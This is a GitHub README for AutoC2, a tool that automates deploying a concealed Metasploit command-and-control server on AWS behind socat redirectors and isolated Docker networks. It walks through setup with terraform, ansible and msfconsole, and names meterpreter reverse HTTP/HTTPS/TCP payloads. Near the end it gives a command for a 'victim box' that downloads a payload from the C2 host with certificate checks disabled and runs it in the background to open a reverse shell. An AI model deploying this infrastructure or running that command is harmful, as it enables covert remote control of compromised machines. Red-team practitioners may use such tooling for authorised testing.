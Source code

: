 
# AutoC2

A quick isolated C2 Deployer.

![AutoC2](/demo_screenshots/AutoC2_1.PNG)


## Overview

AutoC2 makes use of terraform + ansible to deploy and hide a command and control server with isolated docker network within less than 5 mins in a single click!

Brief outline of what the tool does :

1. deploys an ec2 micro instance on desired region given by user.

2. setup the C2 server which is not exposed to the internet with the help of isolated docker network which consists of multiple socat redirectors and a metasploit container instance.

3. uses meterpreter_reverse_http as payload and similar payloads such as 
meterpreter_reverse_https and meterpreter_reverse_tcp works as well. (requires modification to docker_delivery.rc file)

This automated script is built over technique demonstrated by the author of following blog. All credits for technique/ detailed explanation of how this is built can be found here:

https://khast3x.club/posts/2020-02-09-C2-Protection-Socat-Docker/


## Author : Goutham Madhwaraj

## Prerequisites

* terraform must be installed

* ansible(python 3)must be installed.
```bash
pip3 install ansible
```

* your IAM account credentials (Aws access key and secret key) with admin privileges.

* AWS Region to be deployed and image(tested on ubuntu and works on debain) AMI code.

* set environment variable to ignore ssh key trust warnings
```bash
export ANSIBLE_HOST_KEY_CHECKING=False
```

## Getting Started

* Only files we touch for changing configuration is **vars.tf** and **terraform.tfvars**.  

* first generate SSH keys for setting up public key authentication on any launched instances.  
```bash
ssh-keygen -f keyy
chmod 600 keyy
```
* inside **vars.tf** , update the path to keys in PRIVATE_KEY , PUBLIC_KEY and other values such as region_aws and AMI value (can be found at cloud-images.ubuntu.com). 

* inside **terraform.tfvars** , update IAM user access key and secret key. 

* run the following command inside this repo project root to initiatize resources. 

```bash
terraform init
```

* Now run the following command to bring up the c2 server . this inturn calls up the ansible playbook to set up the software provisioning and isolated docker network.
```bash
terraform apply
```

* That's it! Infra is set up. Now ssh to the C2 instance using same priv key which was generated before and execute **docker_delivery.rc** metasploit script to start listening for connections.
```bash
SSH -i kkey ubuntu@c2-ip
```

* Verify containers are running.
```bash
sudo docker container ls
```

* Execute metasploit auto handler script inside msf container.
and wait for victim sessions.

```bash
sudo docker container exec -it msf /bin/bash

./msfconsole -r docker_delivery.rc

```
![AutoC2](/demo_screenshots/AutoC2_2.PNG)
![AutoC2](/demo_screenshots/AutoC2_3.PNG)

* By default it generates payload for linux x64 systems.can be modified for different target by modifying **docker_delivery.rc** file

*  By default docker_delivery.rc uses certificate picked up automatically by metasploit.

* On a **victim box**, execute the following to get reverse meterpreter shell on attacker msf container.

```bash
wget --no-check-certificate https://c2IP/delivery
chmod +x delivery
./delivery&
```
![AutoC2](/demo_screenshots/Auto_victim1.PNG)
![AutoC2](/demo_screenshots/AutoC2_7.PNG)
* Finally to destroy the infrastructure completely(use this with caution!) use the following command :
```bash
terraform destroy
```


